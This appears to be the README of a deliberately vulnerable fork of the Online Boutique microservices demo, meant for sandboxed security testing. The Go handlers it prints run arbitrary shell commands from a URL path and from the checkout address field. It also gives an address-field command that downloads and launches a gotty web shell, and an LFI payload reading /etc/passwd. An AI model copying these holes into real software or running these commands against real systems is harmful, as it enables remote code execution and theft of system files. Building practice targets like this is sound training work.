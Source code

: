 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accomodate some of the usecases mentioned below

1. **Sensitive keys in codebases** -
     commiting sensitive information to version control system.

2. **Custom handle with code execution** -
    a custom httpHandler to replyback *whoami*
3. **Vulnerable address field** - 
    to executes codes in the backend


> **Note :** This tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed enviroment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public ip**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
4. **Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
5. **Give commands in Address field to intall and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />

## Local File Inclusion
**Deployment**
<br />
step-1
```
kubectl apply -f microservices-demo/release/lfi.yaml
```
step-2
```
kubectl get svc | grep lfi
```
step-3
<br />
	1. Copy the External IP
	<br />
	2. Open this file "microservices-demo/src/frontend/templates/header.html
	<br />
	3. Go to line 39 and change the <a> tag herf IP address using LFI External IP
	<br />
	4. Save the file and build docker image for frontend
	<br />
step-4
```
kubectl apply -f microservices-demo/release/kubernetes-manifests.yaml
```
<br />
<br />
**LFI**
<br />
step-1
<br />
1. Click the New Feature tab on home page
<br />
2. It will open development page
<br />
![image](https://user-images.githubusercontent.com/86401171/143502876-428c777c-6cd2-4e46-8038-78fcfa72b3eb.png)
<br />
3. Now try LFI payloads on the URL
<br />
```
http://35.184.92.18/?file=../../../etc/passwd
```
<br />
![image](https://user-images.githubusercontent.com/86401171/143503029-96272477-c3f2-4b34-a8c4-71cf29352aa5.png)
<br />
